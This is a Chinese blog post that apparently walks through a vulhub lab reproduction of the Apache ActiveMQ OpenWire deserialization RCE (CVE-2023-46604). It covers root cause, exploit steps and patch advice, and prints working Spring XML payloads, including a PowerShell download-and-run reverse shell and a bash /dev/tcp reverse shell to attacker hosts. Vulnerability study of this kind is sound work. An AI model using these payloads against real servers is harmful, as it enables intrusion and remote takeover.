







---

title: "Apache ActiveMQ OpenWire 协议反序列化 RCE（CVE 2023 46604）"
slug: "Apache ActiveMQ OpenWire 协议反序列化 RCE（CVE 2023 46604）"
description: 
date: "2024-11-10T19:40:36+08:00"
image: activemq.png
math: 
license: 
hidden: false
draft: false 
categories: ["网安笔记"]
tags: ["vulhub"]

---

---


> Apache ActiveMQ 是美国阿帕奇（Apache）软件基金会所研发的一套开源的消息中间件，它支持Java消息服务、集群、Spring Framework等。

`OpenWire`协议在ActiveMQ中被用于多语言客户端与服务端通信。在`Apache ActiveMQ 5.18.2`版本及以前，`OpenWire`协议通信过程中存在一处反序列化漏洞，该漏洞可以允许具有网络访问权限的远程攻击者通过操作 `OpenWire` 协议中的序列化类类型，导致代理的类路径上的任何类实例化，从而执行任意命令。

## 影响范围

- Apache ActiveMQ ≤ 5.18.2
- Apache ActiveMQ ＜5.17.6
- Apache ActiveMQ ＜5.16.7
- Apache ActiveMQ ＜5.15.16

## 环境构建

ActiveMQ运行后，默认监听如下两个端口：

| 默认端口  |      默认条件      |
| :-------: | :----------------: |
| 8161 web  | 需配置才可远程访问 |
| 61616 tcp |      远程访问      |

反序列化漏洞出现在61616端口中。 执行如下命令启动一个`ActiveMQ 5.17.3`版本服务器：

```cmd
docker compose up -d
```



在利用之前请访问`http://your-ip:8161`以确认服务已成功启动，后续只需要使用端口 61616。



## 原理分析

>分析来自于《[Apache ActiveMQ CVE-2023-46604 RCE 分析——Boogipop](https://boogipop.com/2023/11/03/Apache%20ActiveMQ%20CVE-2023-46604%20RCE%20%E5%88%86%E6%9E%90/)》



这边的diff可以看到，漏洞点在`BaseDataStreamMarshaller`的`createThrowable`方法。



ActiveMQ Classic 代理附带了一些 Spring 依赖项，包括[`org.springframework.context.support.ClassPathXmlApplicationContext`](https://docs.spring.io/spring-framework/docs/current/javadoc-api/org/springframework/context/support/ClassPathXmlApplicationContext.html)用于运行 Spring 应用程序的依赖项。此类不仅存在于代理中，而且还是极为常见的客户端依赖项。它有[一个构造函数](https://docs.spring.io/spring-framework/docs/current/javadoc-api/org/springframework/context/support/ClassPathXmlApplicationContext.html#(java.lang.String))，该构造函数接受一个`String`，该构造函数可以是指向网络上的 XML 应用程序配置文件的 HTTP URL。

此漏洞的唯一已知利用方法是`ClassPathXmlApplicationContext`通过 HTTP 从网络某处加载恶意 XML 应用程序配置文件。此恶意 XML 明确定义了要在存在漏洞的机器（即代理或客户端）上运行的任意代码。

## 漏洞复现

首先，启动一个HTTP反连服务器，其中包含我们的【[poc.xml](https://github.com/vulhub/vulhub/blob/master/activemq/CVE-2023-46604/poc.xml)】：

```cmd
python3 -m http.server 6666
```



然后，执行【[poc.py](https://github.com/vulhub/vulhub/blob/master/activemq/CVE-2023-46604/poc.py)】，传入的三个参数分别是目标服务器地址、端口，以及包含poc.xml 的反连平台URL：

```
python poc.py rhost rport http://vps:port/poc.xml
```



执行完成后，进入`ActiveMQ`容器：

```cmd
docker exec cve-2023-46604-activemq-1 ls -l /tmp 
```

可以看见命令`touch /tmp/activeMQ-RCE-success` 已经被成功执行。



【POC-DNSLog】

```xml
<?xml version="1.0" encoding="utf-8"?>
 
<beans xmlns="http://www.springframework.org/schema/beans" xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xsi:schemaLocation=" http://www.springframework.org/schema/beans http://www.springframework.org/schema/beans/spring-beans.xsd">  
  <bean id="pb" class="java.lang.ProcessBuilder" init-method="start"> 
    <constructor-arg> 
      <list> 
        <value>ping</value>    
	<value>xxx.xxx.xxx.cn</value> 
      </list> 
    </constructor-arg> 
  </bean> 
</beans>
```

【POC-win】

```xml
<beans xmlns="http://www.springframework.org/schema/beans"
       xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
       xsi:schemaLocation="http://www.springframework.org/schema/beans http://www.springframework.org/schema/beans/spring-beans.xsd">
 
    <bean id="pb" class="java.lang.ProcessBuilder" init-method="start">
        <constructor-arg>
            <list>
                <value>powershell</value>
                <value>-c</value>
                <value><![CDATA[IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/samratashok/nishang/master/Shells/Invoke-PowerShellTcp.ps1'); Invoke-PowerShellTcp -Reverse -IPAddress x.x.x.x -Port 3333]]></value>
            </list>
        </constructor-arg>
    </bean>
</beans>
```

【POC-linux】

```xml
<?xml version="1.0" encoding="UTF-8" ?>
    <beans xmlns="http://www.springframework.org/schema/beans"
       xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
       xsi:schemaLocation="
     http://www.springframework.org/schema/beans http://www.springframework.org/schema/beans/spring-beans.xsd">
        <bean id="pb" class="java.lang.ProcessBuilder" init-method="start">
            <constructor-arg >
            <list>
                <value>bash</value>
                <value>-c</value>
                <value><![CDATA[bash -i >& /dev/tcp/ip/port 0>&1]]></value>
            </list>
            </constructor-arg>
        </bean>
    </beans>
```

## 修复建议

建议更新到最新安全版本

- Apache ActiveMQ ≥ 5.18.3
- Apache ActiveMQ ≥ 5.17.6
- Apache ActiveMQ ≥ 5.16.7
- Apache ActiveMQ ≥ 5.15.16

## 附录

### 参考文献

- 《[Apache ActiveMQ RCE 分析](https://xz.aliyun.com/t/12929)》

- 《[Apache ActiveMQ CVE-2023-46604 RCE 分析——Boogipop](https://boogipop.com/2023/11/03/Apache%20ActiveMQ%20CVE-2023-46604%20RCE%20%E5%88%86%E6%9E%90/)》
- 《[Achieving a Reverse Shell Exploit for Apache ActiveMQ (CVE_2023-46604)](https://github.com/rootsecdev/CVE-2023-46604)》
- 《[ActiveMQ RCE （CVE-2023-46604） 漏洞利用工具](https://github.com/X1r0z/ActiveMQ-RCE)》

### 版权信息

本文原载于 [Ranch's Blog](https://ranch007.github.io)，遵循 CC BY-NC-SA 4.0 协议，复制请保留原文出处。
